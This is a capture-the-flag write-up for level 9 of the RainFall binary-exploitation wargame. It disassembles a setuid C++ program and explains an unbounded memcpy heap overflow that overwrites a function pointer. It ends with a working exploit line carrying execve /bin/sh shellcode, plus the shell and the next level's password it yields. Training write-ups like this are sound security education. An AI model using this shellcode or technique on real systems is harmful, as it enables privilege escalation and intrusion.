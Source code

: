 # Level 9

- We login as user level9:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
```

```
level9@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
level9@RainFall:~$ gdb level9
```

```
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
End of assembler dump.
```

```
Dump of assembler code for function _ZN1NC2Ei:
   0x080486f6 <+0>:     push   %ebp
   0x080486f7 <+1>:     mov    %esp,%ebp
   0x080486f9 <+3>:     mov    0x8(%ebp),%eax
   0x080486fc <+6>:     movl   $0x8048848,(%eax)

   0x08048702 <+12>:    mov    0x8(%ebp),%eax
   0x08048705 <+15>:    mov    0xc(%ebp),%edx
   0x08048708 <+18>:    mov    %edx,0x68(%eax)
   0x0804870b <+21>:    pop    %ebp
   0x0804870c <+22>:    ret
End of assembler dump.
```
>`0x8048848 <_ZTV1N+8>: 0x0804873a`

>`0x804873a <_ZN1NplERS_>: 0x8be58955`

```
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:     push   %ebp
   0x0804870f <+1>:     mov    %esp,%ebp
   0x08048711 <+3>:     sub    $0x18,%esp
   0x08048714 <+6>:     mov    0xc(%ebp),%eax
   0x08048717 <+9>:     mov    %eax,(%esp)
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    0x8(%ebp),%edx
   0x08048722 <+20>:    add    $0x4,%edx
   0x08048725 <+23>:    mov    %eax,0x8(%esp)
   0x08048729 <+27>:    mov    0xc(%ebp),%eax
   0x0804872c <+30>:    mov    %eax,0x4(%esp)
   0x08048730 <+34>:    mov    %edx,(%esp)
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:    leave
   0x08048739 <+43>:    ret
End of assembler dump.
```

- Let's highlight the most important parts of the program:
```
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
```
>Call `<_Znwj@plt>` with the constant 0x6c (108 in decimal) as the first parameter. This returns a 108-byte buffer allocated on the heap.

```
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
```
>Call `<_ZN1NC2Ei>` with the new buffer. The buffer address will be copied at `0x1c(%esp)`.

>The `<_ZN1NC2Ei>` function copies the address of a function at the beginning of the buffer passed as a parameter.

```
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
```
>Allocate another buffer on the heap.

```
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
```
>Call `<_ZN1NC2Ei>` with the new buffer. The buffer address will be copied at `0x18(%esp)`.

```
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
```
>Call `<_ZN1N13setAnnotationEPc>` with the first argument of the program and the first buffer as parameters.

>The `<_ZN1N13setAnnotationEPc>` function copy the first argument of the program into the buffer right after the address added by `<_ZN1NC2Ei>`.

```
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
```
>Copy the address located inside the second buffer into `edx`.

```
   0x08048693 <+159>:   call   *%edx
```
>Call the function that starts at the address stored into `edx`.


- Our only interaction with the program is the argument we give it as input. This argument is copied without limitation into a 108-byte buffer. Furthermore, the first 4 memory slots located just after the first buffer (those that make up the beginning of the second buffer) are used to store the address of a function that will be called `(0x08048693 <+159>: call *%edx)`, so:
```
$ echo -ne "\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80" | wc -c
27
```
> BUFFER_SIZE( 108 ) - SHELLCODE_SIZE( 27 ) - ADDRESS_SIZE( 4 ) = 77
```
level9@RainFall:~$ ./level9 $(python -c "print('\x10\xa0\x04\x08' + '\x90'*77 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\x0c\xa0\x04\x08')")
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```